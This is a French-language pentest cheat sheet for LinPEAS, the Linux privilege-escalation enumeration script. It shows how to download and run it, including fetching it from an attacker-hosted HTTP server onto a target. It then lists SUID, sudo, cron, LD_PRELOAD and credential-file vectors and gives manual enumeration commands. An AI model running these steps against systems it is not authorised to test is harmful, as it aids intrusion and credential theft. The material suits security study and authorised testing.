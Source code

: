 # LinPEAS  – Post-Exploitation & Privilege Escalation (Linux)

LinPEAS est un script d’automatisation destiné à identifier les vecteurs potentiels d'escalade de privilèges sur les systèmes Linux. Il fait partie de la suite PEASS-ng.

# la cheat sheet est nulle je dois la modifier 

---

##  1. Téléchargement et Exécution

### Depuis une machine avec accès internet :
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Depuis un serveur local (si la machine cible n’a pas accès à internet) :
```bash
# Sur l'attaquant :
python3 -m http.server 8000

# Sur la cible :
wget http://<ip_attaquant>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

##  2. Lecture et Analyse des Résultats

LinPEAS génère un grand volume d'information. Voici les sections critiques à analyser :

### ➤ SUID / SGID / Capabilities
- Fichiers avec SUID/SGID pouvant permettre un accès root
- Fichiers avec des capacités POSIX spéciales (ex: `cap_setuid`, `cap_dac_read_search`)

### ➤ Binary Exploitation
- Fichiers SUID avec des droits d'exécution inhabituel
- Binaries custom en `/home`, `/opt`, `/usr/local/bin`

### ➤ Cron Jobs
- Tâches planifiées en tant que root avec des scripts modifiables
- Tâches pointant vers des chemins inexistants

### ➤ Accès `sudo`
- Commandes accessibles via `sudo` sans mot de passe
- Possibilités d'abus (`sudo vi`, `sudo less`, `sudo python`, etc.)

### ➤ Variables d’environnement
- PATH modifiable ou contenant des chemins insécures
- Variables LD_PRELOAD, LD_LIBRARY_PATH exploitables

### ➤ Services & Logiciels
- Services en cours d’exécution avec des permissions élevées
- Versions vulnérables détectées (MySQL, Apache, etc.)

### ➤ Fichiers sensibles
- Fichiers contenant potentiellement des credentials (`.bash_history`, `wp-config.php`, etc.)
- Clés SSH privées accessibles ou autorisées

---

## ⚙️ 3. Commandes utiles pour compléter LinPEAS

### Rechercher manuellement les SUID :
```bash
find / -perm -4000 -type f 2>/dev/null
```

### Vérifier les accès `sudo` :
```bash
sudo -l
```

### Vérifier les cron jobs globaux :
```bash
cat /etc/crontab
ls -la /etc/cron.*
```

### Scanner les capacités :
```bash
getcap -r / 2>/dev/null
```

